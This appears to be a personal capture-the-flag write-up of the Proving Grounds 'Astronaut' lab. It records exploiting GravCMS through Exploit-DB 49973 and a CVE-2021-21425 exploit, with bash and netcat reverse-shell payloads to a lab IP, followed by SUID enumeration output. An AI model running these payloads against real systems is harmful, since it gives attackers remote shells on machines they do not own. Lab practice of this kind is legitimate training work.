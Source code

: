 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Astronaut"
date:   2024-07-24 19:40:31 -0400
categories: oscp proving-grounds
---
```



192.168.174.12
 
============================================================================================================================
port 80

http://192.168.174.12/grav-admin/


└─$ searchsploit -m 49973.py 
  Exploit: GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)
      URL: https://www.exploit-db.com/exploits/49973
     Path: /usr/share/exploitdb/exploits/php/webapps/49973.py
    Codes: N/A
 Verified: True
File Type: ASCII text, with very long lines (429)
Copied to: /home/kali/offsec/pg-practice/Astronaut/49973.py


echo -ne "bash -i >& /dev/tcp/192.168.45.213/4444 0>&1" | base64 -w0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIxMy80NDQ0IDA+JjE=



trying https://github.com/CsEnox/CVE-2021-21425

python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.213 4444 >/tmp/f' -t http://192.168.174.12/grav-admin

=====================================================================================================
alex


$ find / -perm -u=s 2>/dev/null | grep -v '^/proc|^/run|^/sys|^/snap'
/snap/core20/1852/usr/bin/chfn
/snap/core20/1852/usr/bin/chsh
/snap/core20/1852/usr/bin/gpasswd
/snap/core20/1852/usr/bin/mount
/snap/core20/1852/usr/bin/newgrp
/snap/core20/1852/usr/bin/passwd
/snap/core20/1852/usr/bin/su
/snap/core20/1852/usr/bin/sudo
/snap/core20/1852/usr/bin/umount
/snap/core20/1852/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1852/usr/lib/openssh/ssh-keysign
/snap/core20/1611/usr/bin/chfn
/snap/core20/1611/usr/bin/chsh
/snap/core20/1611/usr/bin/gpasswd
/snap/core20/1611/usr/bin/mount
/snap/core20/1611/usr/bin/newgrp
/snap/core20/1611/usr/bin/passwd
/snap/core20/1611/usr/bin/su
/snap/core20/1611/usr/bin/sudo
/snap/core20/1611/usr/bin/umount
/snap/core20/1611/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1611/usr/lib/openssh/ssh-keysign
/snap/snapd/18596/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/at
/usr/bin/su
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.4
/usr/bin/gpasswd




